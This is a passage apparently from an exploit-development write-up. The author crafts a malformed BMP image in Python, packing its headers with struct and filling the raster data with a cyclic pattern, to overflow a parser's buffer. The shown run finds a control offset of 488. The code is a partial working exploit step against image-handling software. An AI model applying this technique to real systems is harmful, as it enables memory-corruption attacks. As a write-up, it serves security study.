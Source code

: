 next we'll format the `Header` and `InfoHeader` sections

```python
# Pack BMP header (14 bytes)
bmp_header = struct.pack('<2sIHHI', signature, fileSize, reserved, reserved, dataOffset)

# Pack DIB header (40 bytes)
dib_header = struct.pack('<IIIHHIIIIII', headerSize, width, height, colorPlanes, bitsPerPixel,compression, imageSize, horizontalResolution, verticalResolution, numColors, importantColors)
```

next, we'll combine all the section plus the raw `RasterData` which will contain our payload

```python
bmp_data = bmp_header + dib_header + RasterData
return bmp_data
```

next to test if we can control execution's flow, we'll send the usual cyclic payload

```python
payload = cyclic(600)
with open(exploit_bmp, "wb") as f:
    f.write(build_bmp(
        width=20,
        height=20,
        imageSize=400,
        dataOffset=66,
        RasterData=payload
))
```

however after a few run, most of the time it crashes because of a pointer dereference, I'm not sure why and what part causes it, but I decided to not care about it.

the time it succeded we get the offset of 488
